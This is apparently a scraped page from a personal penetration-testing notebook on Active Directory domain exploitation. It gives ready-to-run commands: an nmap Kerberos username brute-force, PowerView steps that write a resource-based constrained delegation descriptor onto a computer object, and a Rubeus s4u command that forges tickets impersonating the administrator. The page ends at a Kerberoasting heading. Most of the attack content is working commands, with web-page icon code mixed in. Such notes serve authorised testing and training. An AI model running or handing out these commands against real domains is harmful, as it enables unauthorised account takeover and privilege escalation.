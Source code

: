 ##

Brute Usernames with Nmap[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1178'%3e%3cg data-evernote-id='1179' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1180' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1181' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#brute-usernames-with-nmap)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1185'%3e%3cg data-evernote-id='1186' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1187' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1188' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

nmap -v -Pn -p 88 --script krb5-enum-users.nse --script-args "realm='burmat.co', userdb='users.txt'" 10.10.10.123

##

GenericWrite to Host + User SPN = PWN[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1203'%3e%3cg data-evernote-id='1204' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1205' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1206' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#genericwrite-to-host-user-spn-pwn)

If we have `GenericWrite ` privileges over a host and we are a user that has an SPN, we can write our SID to the `msDS-AllowedToActOnBehalfOfOtherIdentity ` property against the AD object and forge tickets as anyone we like. You can read more about it here: https://alsid.com/company/news/kerberos-resource-based-constrained-delegation-new-control-path​

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1226'%3e%3cg data-evernote-id='1227' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1228' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1229' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

85## we can write our delegation attribute to the DC with the following:

86$UserSid = Get-DomainUser svc_burmat -Properties objectsid | Select -Expand objectsid

87$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($UserSid))"

88$SDBytes = New-Object byte[] ($SD.BinaryLength)
89$SD.GetBinaryForm($SDBytes, 0)

90Get-DomainComputer websrv.burmat.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

91​
92## now we can use rubeus to forge tickets as anyone we want:

93./rubeus.exe s4u /user:svc_burmat /ticket:doIFFDCCBRCg... SNIP .. /impersonateuser:administrator /msdsspn:cifs/websvr.burmat.local /ptt

##

Kerberoasting:[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1266'%3e%3cg data-evernote-id='1267' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1268' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1269' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#kerberoasting)
